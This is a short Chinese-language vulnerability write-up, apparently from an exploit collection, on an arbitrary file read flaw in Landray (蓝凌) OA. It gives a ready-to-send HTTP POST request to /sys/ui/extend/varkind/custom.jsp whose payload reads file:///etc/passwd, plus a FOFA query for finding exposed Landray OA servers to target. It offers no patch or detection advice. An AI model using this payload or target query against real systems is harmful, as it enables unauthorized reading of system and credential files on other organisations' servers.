

#### 影响范围

蓝凌OA

#### 漏洞概述

蓝凌软件全称深圳市蓝凌软件股份有限公司于2001年在深圳科技园成立，蓝凌是国内知名的大平台OA服务商和国内领先的知识管理解决方案提供商，是专业从事组织的知识化咨询、软件研发、实施、技术服务的国家级高新技术企业，近期Landray-OA系统被爆出存任意文件读取漏洞

#### 漏洞复现

文件读取：

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}
```



#### 目标检索

FOFA:
```
app="Landray-OA系统"
```


